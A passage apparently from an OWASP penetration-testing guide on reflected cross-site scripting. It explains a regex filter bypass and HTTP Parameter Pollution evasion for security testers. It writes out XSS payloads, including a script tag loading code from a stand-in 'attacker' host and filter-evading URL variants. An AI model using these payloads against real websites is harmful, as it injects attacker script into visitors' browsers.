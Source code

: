 In this scenario there is a regular expression checking if <b>\<script
\[anything but the character: '\>' \] src</b> is inserted. This is
useful for filtering expressions like

    <script src="http://attacker/xss.js"></script>

which is a common attack. But, in this case, it is possible to bypass
the sanitization by using the "\>" character in an attribute between
script and src, like this:

    http://example/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>

This will exploit the reflected cross site scripting vulnerability shown
before, executing the javascript code stored on the attacker's web
server as if it was originating from the victim web site,
<http://example/>.

#### Example 7: HTTP Parameter Pollution (HPP)


Another method to bypass filters is the HTTP Parameter Pollution, this
technique was first presented by Stefano di Paola and Luca Carettoni in
2009 at the OWASP Poland conference. See the [Testing for HTTP Parameter
pollution](Testing_for_HTTP_Parameter_pollution_\(OTG-INPVAL-004\) "wikilink")
for more information. This evasion technique consists of splitting an
attack vector between multiple parameters that have the same name. The
manipulation of the value of each parameter depends on how each web
technology is parsing these parameters, so this type of evasion is not
always possible. If the tested environment concatenates the values of
all parameters with the same name, then an attacker could use this
technique in order to bypass pattern- based security mechanisms.
Regular attack:

    http://example/page.php?param=<script>[...]</script>

Attack using HPP:

    http://example/page.php?param=<script&param=>[...]</&param=script>

''' Result expected '''
See the [XSS Filter Evasion Cheat
Sheet](XSS_Filter_Evasion_Cheat_Sheet "wikilink") for a more detailed
list of filter evasion techniques. Finally, analyzing answers can get
complex. A simple way to do this is to use code that pops up a dialog,
as in our example. This typically indicates that an attacker could
execute arbitrary JavaScript of his choice in the visitors' browsers.

### Gray Box testing

Gray Box testing is similar to Black box testing. In gray box testing,
the pen-tester has partial knowledge of the application. In this case,
information regarding user input, input validation controls, and how the
user input is rendered back to the user might be known by the
pen-tester.

If source code is available (White Box), all variables received from
users should be analyzed. Moreover the tester should analyze any
sanitization procedures implemented to decide if these can be
circumvented.
